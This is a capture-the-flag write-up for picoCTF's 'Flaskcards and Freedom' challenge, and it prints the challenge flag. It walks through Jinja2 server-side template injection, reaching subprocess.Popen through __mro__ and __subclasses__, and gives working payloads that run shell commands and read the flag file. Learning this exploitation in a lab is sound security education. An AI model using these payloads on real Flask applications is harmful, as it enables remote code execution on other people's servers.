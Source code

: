 ```yaml
---
layout: writeup
title: 'Flaskcards and Freedom'
level:
difficulty:
points: 900
categories: [web]
tags: [SSTI]
flag: picoCTF{R_C_E_wont_let_me_be_85e92c3a}
---
```

## Challenge

There seem to be a few more files stored on the flash card server but we
can't login. Can you?

http://2018shell1.picoctf.com:56944

## Solution

Looks like we can do more advanced things with the SSTI vulnerability
from the [previous Flaskcard challenge](#)

We find this great description about remote code execution (rce) through
server side template injection (SSTI):

* https://www.lanmaster53.com/2016/03/09/exploring-ssti-flask-jinja2/
* https://www.lanmaster53.com/2016/03/11/exploring-ssti-flask-jinja2-part-2/

*Greatly simplified, `__mro__` allows us to go back up the tree of
inherited objects in the current Python environment, and
`__subclasses__` lets us come back down. So what's the impact on the
search of a greater exploit for SSTI in Flask/Jinja2? By starting with a
new-type object, e.g. type str, we can crawl up the inheritance tree to
the root object class using `__mro__`, then crawl back down to every
new-style object in the Python environment using `__subclasses__`. Yes,
this gives us access to every class loaded in the current python
environment.*

Let's try it:

{% raw %}
    input: {{ ''.__class__.__mro__ }}

    result: (<class 'str'>, <class 'object'>)
{% endraw %}

now, let's try to access the `object` class and find all the subclasses
loaded into the app:

{% raw %}
    input: {{ ''.__class__.__mro__[1].__subclasses__() }}

    result: [<class 'itertools.compress'>, <class 'formatteriterator'>,
    <class 'apt_pkg.ActionGroup'>, <class 'flask_wtf.csrf.CSRFProtect'>,
    <class 'sqlalchemy.sql.naming.ConventionDict'>, <class 'sqlalchemy.util.langhelpers.PluginLoader'>,
    <class 'werkzeug.formparser.MultiPartParser'>, <class 'werkzeug.wrappers.ResponseStream'>,
    <class 'jinja2.utils.LRUCache'>, <class 'operator.methodcaller'>, <class 'code'>,

    [..] (~750 more classes)

    <class 'click.core.Parameter'>, <class 'wtforms.fields.core.Field'>, <class 'subprocess.Popen'>,
    <class 'zipfile.LZMACompressor'>, <class 'itertools._tee'>, <class 'wtforms.validators.Regexp'>,
    <class 'werkzeug.wsgi.DispatcherMiddleware'>, <class '_ctypes._CData'>, <class 'itertools.chain'>]

{% endraw %}

Screenshot of how this looks on the website:

![](writeupfiles/flaskcards_freedom_ss.png)

So these are all the python classes we have access to, around 770 of
them. Popen looks interesting,
and we determine it is number 760 in the list:

{% raw %}
    input: {{ ''.__class__.__mro__[1].__subclasses__()[760] }}

    result: <class 'subprocess.Popen'>

{% endraw %}
Let's try to run it, we'll start with a simple `pwd`:

{% raw %}
    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('pwd',shell=True).communicate() }}
    result: (None, None)
{% endraw %}

hmm, it is not outputting stdout; normally we would add
`stdout=subprocess.PIPE`, but we don't have
access to `subprocess`, only `subprocess.Popen` is loaded, but this
turns out to just be the integer `-1`:

{% raw %}
    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('pwd',shell=True,stdout=-1).communicate() }}
    result: (b'/problems/flaskcards-and-freedom_4_2cd670d54e75a9ed7cd0e9b76816fc59\n', None)

{% endraw %}

yay! so we can run any shell command! Now to get the flag..

The challenge description mentioned there were files, so let's do an
`ls`:

{%raw%}
    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('ls',shell=True,stdout=-1).communicate() }}
    result: (b'app\nflag\nserver.py\nxinet_startup.sh\n', None)

ok, looks like we need to read the file named `flag`

    input: {{ ''.__class__.__mro__[1].__subclasses__()[760]('cat flag',shell=True,stdout=-1).communicate() }}
    result: (b'picoCTF{R_C_E_wont_let_me_be_85e92c3a}', None)
{% endraw %}

![](writeupfiles/flaskcards_freedom_flag.png)

whoo \\o/


